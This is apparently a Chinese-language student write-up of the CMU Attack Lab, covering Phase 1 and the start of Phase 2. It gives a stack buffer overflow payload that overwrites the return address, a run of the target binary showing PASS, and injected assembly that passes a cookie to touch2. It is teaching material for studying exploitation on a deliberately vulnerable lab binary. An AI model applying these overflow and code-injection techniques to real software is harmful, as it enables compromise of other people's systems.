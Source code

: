要覆写`ret`的地址，我们只需要构造字节码即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* modify ret address saved on stack */
```

PASS

```
➜  attacklab git:(main) ✗ ./hex2raw < phase_1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

### Phase 2

首先实验要求我们跳到`touch2()`

```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

如果参数为cookie的话，就会PASS，否则不会。

也不是非常难的样子，只要把cookie即`0x59b997fa`给送入`%rdi`里头，然后跳转到`touch2`即可。

我们先构造一下汇编代码

```
mov $0x59b997fa, %rdi
pushq $0x4017ec
retq
```
